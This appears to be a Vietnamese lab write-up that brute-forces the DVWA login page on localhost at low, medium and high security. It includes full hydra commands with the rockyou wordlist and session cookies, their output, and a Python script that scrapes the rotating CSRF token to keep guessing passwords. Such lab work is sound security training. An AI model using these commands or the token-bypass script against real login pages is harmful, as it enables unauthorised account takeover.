 # Brute Force

Mục tiêu là tấn công một trang đăng nhập HTTP.

**Mức độ: Thấp.**

Chúng ta cần truyền vào form 2 trường thông tin là username và password.

![alt text](image.png)

Ta sẽ bắt gói tin http từ client thì có thông tin như sau:

![alt text](image-2.png)

Ta thấy có trường thông tin username và password được hiện thị rõ từ đó ta có thể dùng hydra để tấn công nhằm mục tiêu tìm được tài khoản chính xác.

```Shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=r64e85mgv5hb2h4f06otns746d; security=low'
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=r64e85mgv5hb2h4f06otns746d; security=low'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:15:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=rt5o26sooph0v8p5nuarofj346
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>

**Mức độ: Trung bình.**

![alt text](image-3.png)

Bên trên là request của client khi gửi gói tin đăng nhập lên server, ta có thể thấy về cơ bản thì gói tin không khác so với gói tin ở mức độ thấp -> vẫn có thể dùng hydra để bẻ khóa.

```Shell
hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=medium'
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
┌──(kali㉿kali)-[~]
└─$ hydra -l admin -P /usr/share/wordlists/rockyou.txt localhost http-form-get '/DVWA/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie=PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=medium'

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-15 11:20:02
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-get-form://localhost:80/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:Username and/or password incorrect.:H=Cookie: security=low; PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6
[80][http-get-form] host: localhost  login: admin   password: password
1 of 1 target successfully completed, 1 valid password found
```
</details>

**Mức độ: Cao.**

![alt text](image-5.png)

Ở mức độ này, về cơ bản thì request vẫn giống như 2 mức độ nhưng ta có thể thấy trong URL thấy có xuất hiện thêm user_token, thông só này sẽ khiên brute force trở nên khó khăn hơn vì ngoài phải đoán mật khẩu, kẻ tấn công phải đoán cả token và token thì lại luôn thay đổi sau các phiên đăng nhập -> không thể sử dụng hydra. -> nên sử dụng python

```Python
import requests
from bs4 import BeautifulSoup
from requests.structures import CaseInsensitiveDict

url = "http://127.0.0.1/DVWA/vulnerabilities/brute/"
headers = CaseInsensitiveDict()
headers["Cookie"] = "PHPSESSID=aer4ns3d8rfl601snqa9q6l2t6; security=high"

r = requests.get(url, headers=headers)

r1 = r.content
soup = BeautifulSoup(r1, 'html.parser')
user_token = soup.findAll('input', attrs={'name': 'user_token'})[0]['value']

with open("/usr/share/wordlists/password.txt", "rb") as f:
    for i in f.readlines():
        i = i[:-1]
        try:
            a1 = i.decode()
        except UnicodeDecodeError:
            print(f'can not decode {i}')
            continue

        r = requests.get(f'http://127.0.0.1/DVWA/vulnerabilities/brute/?username=admin&password={a1}&Login=Login&user_token={user_token}', headers=headers)
        
        r1 = r.content
        soup1 = BeautifulSoup(r1, 'html.parser')
        user_token = soup1.findAll('input', attrs={'name': 'user_token'})[0]['value']
        print(f'checking {a1}')
        if 'Welcome' in r.text:
            print(f'LoggedIn: username: admin , password:{a1}')
            break
    
```

<details><summary markdown="span">Bấm để xem output : </summary>

```Shell
└─$ python solve.py
checking 1234567
checking 876543
checking 345678
checking ertyui
checking kjhgfd
checking gfdsdfghjk
checking 3456789
checking nbvcx
checking 456789
checking mnbv
checking 4567o
checking jhgfd
checking 3456yujk
checking mnhgfr4
checking iuytfdcv
checking password
LoggedIn: username: admin , password:password
```
</details>


